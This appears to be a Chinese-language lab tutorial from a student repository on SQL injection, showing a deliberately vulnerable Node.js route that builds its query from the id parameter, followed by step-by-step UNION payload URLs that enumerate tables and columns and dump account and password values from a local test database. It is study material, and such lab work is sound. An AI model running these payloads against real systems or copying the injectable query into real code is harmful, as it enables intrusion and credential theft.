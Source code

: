 ## 计算机病毒与入侵关于SQL注入的研究（二）
### 写在前面
上一次我们尝试了越过用户登录权限，这一次我们再来尝试：**通过union拖库**
> union大法吼

### SQL注入前准备
- 生成测试需要的数据库和表
编写models/Article和models/migrate.js，然后运行node models/migrate重置数据库，生成如下图所示的Articles表：
![second1.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/)

- 编写路由代码：
```javascript
router.get("/article",function *(){
    var ctx = this;
    var query = ctx.request.query;
    var articleId = query.id || 1;
    debug("SQL",`select * from Articles where id = ${articleId}`);
    var data = yield db.query(`select * from Articles where id = ${articleId}`,{
        type: db.QueryTypes.SELECT
    });
    data = data.length !== 0 ? data[data.length - 1] : {
        title : "没有这个文章",
        content :"<p>没有这个文章</p>"
    };
    // debug(data);
    yield ctx.render("index.html", data);
})
```
上面是一个路由函数。简单的说就是处理GET参数id，然后使用SQL对id进行查询，得到数据渲染html返回给浏览器端。
对应路由是```http://localhost:3030/article?id=1```
运行起来如下图：
![second2.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/)

- 编写css和gulpfile.js自动化脚本等
引入browsersync和gulp自动脚本，与注入无关，略过

### SQL注入测试
首先测试 ```http://localhost:3030/article？id=3/*ABC*/```
可以发现返回的页面没有变化，说明对输入没有过滤，这里是可以注入的。
现在我们使用自己写的union进行邪恶地拖库（注：造成空格有两种：一种直接加空格Encode之后就是  ，一种使用/\*\*/注释来分隔，下面我们空格方便查看）
- 第一步，测试SQL注入语句，访问```http://localhost:3030/article?id=3 and 1=2```
可以发现页面显示没有文章，因为1=2永远为false，所以返回的是没有文章。
![second3.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/)

- 第二步，union链接得到当前文章所在表的字段个数，从1开始测
```
http://localhost:3030/article?id=3 and 1=1 union select 1
http://localhost:3030/article?id=3 and 1=1 union select 1,2  
http://localhost:3030/article?id=3 and 1=1 union select 1,2,3  
http://localhost:3030/article?id=3 and 1=1 union select 1,2,3,4  
http://localhost:3030/article?id=3 and 1=1 union select 1,2,3,4,5  
```
前四步执行的时候都显示：
![second4.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/)
因为union两头连接的表的字段数不一样，所以后台处理会发生错误，总之返回肯定会不正常，有的可能还会显示DEBUG信息= - =
最后第五步成功，我们放到mysql里面执行就是如下结果：
![second5.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/)
这个时候我们发现页面会发现展示的还是id=3的文章，返回信息没有变化，为什么呢?
我们看路由处理里面的代码，会发现取得数据是数组的第一个：
![second6.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/)
所以碰到这种情况我们只要加一个order by id DESC就可以了：
```
http://localhost:3030/article?id=3 and 1=1 union select 10000,2,3,4,5 order by id DESC  
```
这个时候我们sql的执行结果是：
![second7.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/)
页面的返回结果是：
![second8.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/)
！！！我们可以看到我们输入的2，3分别在这里被展示在了页面上，开心O(∩_∩)O哈哈~，这说明我们只要将2,3改成我们想要的信息就可以随意查看，好的，下面我们来进行第三步

- 第三步，得到数据库的信息：
将URL改成：
```
http://localhost:3030/article?id=3 and 1=1 union select 10000,version(),database(),4,5 order by id DESC  
```
通过mysql内置的函数看到了数据库的版本，数据表的名称：
![second9.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/)
这很棒哦。现在我们要记住virustest这个数据库的名称，在下面有用处

- 第四步，得到这个数据库里面所有的表的名称：
将URL改成：
```
http://localhost:3030/article?id=3 and 1=1 union select 10000,2,TABLE_NAME,4,5 FROM INFORMATION_SCHEMA.TABLES where TABLE_SCHEMA=virustest order by rand() DESC  
```
order by rand()是为了能够查看到所有的表名，我们多执行几次，就可以看到有一个Users表：
![second10.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/)
这个表就有意思了，我们来继续注入，尝试着拿到用户名和密码

- 第五步，拖出数据库内Users表的表段名称
将URL改成：
```
http://localhost:3030/article?id=3 and 1=1 union SELECT 10000,COLUMN_NAME,3,4,5 FROM information_schema.columns where TABLE_SCHEMA='virustest' and TABLE_NAME='Users' order by rand()
```
不断运行，由于order by rand()所以可以陆续看到所有的列名，我们可以看到有两个我们比较感兴趣：
![second11.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/)
![second12.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/)
记下account和password字段名称，我们开始拖出数据

- 第六步，拖出数据库内的数据
将URL改成
```
http://localhost:3030/article?id=3 and 1=1 union select 1,account,password,4,5 from Users order by rand() DESC
```
结果：
![second13.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/)
不断F5刷新，就可以看到所有的account和password

### 简单的注入分析
以上所有的注入过程都是对普通SQL语言的利用。
开发一个项目的时经常用到类似于id=?或者title=?这样的GET参数查询，不只是页面展示，在Restful API的时代，无论是前端web，还是手机app，与后端通信也很有可能会有很多这样的漏洞。很普遍的注入模式，造成的后果往往是灾难性的。